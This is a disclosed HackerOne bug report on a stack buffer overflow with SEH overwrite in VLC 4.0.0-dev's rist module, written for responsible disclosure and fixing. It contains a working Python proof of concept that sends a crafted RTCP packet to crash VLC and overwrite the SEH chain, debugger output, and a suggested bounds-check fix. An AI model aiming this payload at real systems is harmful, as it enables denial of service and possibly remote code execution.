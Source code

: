 # VLC 4.0.0 - Stack Buffer Overflow (SEH)

## Report Details
- **Report ID**: 489102
- **URL**: https://hackerone.com/reports/489102
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-01-31T14:06:58.630Z
- **Disclosed**: 2020-02-10T20:54:07.452Z

## Reporter
- **Username**: qrayn
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: vlc_h1c

## Vulnerability Information
**Summary:**

Incorrect calculation of Buffer Size in rist module for VLC leading to Stack Overflow with SEH chain overwrite.

The modules/access/rist module has an incorrect calculation of buffer size giving an attacker the possibility to set the buffer size of a local variable by sending a maliciously crafted RTSP packet and overflowing the variable in a proceeding memcpy operation. 

**Description:**

In the static void rtcp_input(...) function a variable new_sender_name is defined with a maximum size of MAX_CNAME (128 bytes). When reading a RTCP_PT_SDES package the length for the memcpy operation is set by the rtcp_sdes_get_name_length(buf) which is taking the 9-10th bit of the buffer and making it possible to change the amount of bytes read into the new_sender_name variable.

_rtcp_input(...) (modules/access/rist.c)_
```
/** Sender name is set to max length of MAX_CNAME (128), line: 446 **/
char new_sender_name[MAX_CNAME];

/** name_length is read from the RTSP header, line: 489 **/
int8_t name_length = rtcp_sdes_get_name_length(buf);

/** memcpy new_sender_name with name_length bytes, line: 525 **/
memcpy(new_sender_name, buf + RTCP_SDES_SIZE, name_length);
```

For this to be exploitable the user has to first actively setup a rist listener using VLC.

## Steps To Reproduce:

  1. Open VLC and bind rist on local port: vlc.exe rist://0.0.0.0:8888
  2. Edit IP and port configuration in vlc.py
  3. Execute PoC: ./vlc.py

## Supporting Material/References:

### Proof of Concept

```
#!/usr/bin/python
import socket

server = ("192.168.0.23", 8889)
udp = socket.socket(family=socket.AF_INET, type=socket.SOCK_DGRAM)

bufsize = "\x80" # Amounts of bytes we want read into new_sender_name (128 bytes)

buf = "\x80"                  # Version and padding
buf += "\xCA"                 # packet type = RTCP_PT_SDES
buf += "\x00\x00"             # Record length
buf += "\x00\x00\x00\x00\x00" # SDES record
buf += bufsize                # Buffer size of name 9-10 bit

# 64 bit
buf += "A" * 232 + "B" * 8 + "C" * 8 + "D" * 200 # Buffer for new_sender_name

# 32 bit
#buf += "A" * 568 + "B" * 4 + "C" * 4 + "D" * 50 # Buffer for new_sender_name

udp.sendto(buf, server)
```

### SEH chain overwrite

0:019> !exchain
100 stack frames, scanning for handlers...
Frame 0x01: error getting module for 4242424242424242
Frame 0x02: error getting module for 4343434343434343
Frame 0x03: error getting module for 4444444444444444

0:019> !exchain
3411ff68: 43434343
Invalid exception stack at 42424242

## Suggested mitigation

Extended bounds checking on line 490 would mitigate this problem.

Replacing the following code on line 490:
```
if (name_length > bytes_left)
```

With an extended bounds check:
```
if (name_length > bytes_left || name_length >= MAX_CNAME)
```

## Impact

## Impact
High implication buffer overflow causing application crash and SEH record overwrite. Explotation plausible depending on system and security setup.

Successful exploitation could lead to remote code execution and full system compromise.

If the user is using rist this vulnerability would be able to execute remotely.

## Affected versions
The code seems to have been introduced in a commit on 5th of November 2018 to the 4.0.0-dev branch. Earlier versions seems unaffected by this vulnerability.

## Attachments
No attachments
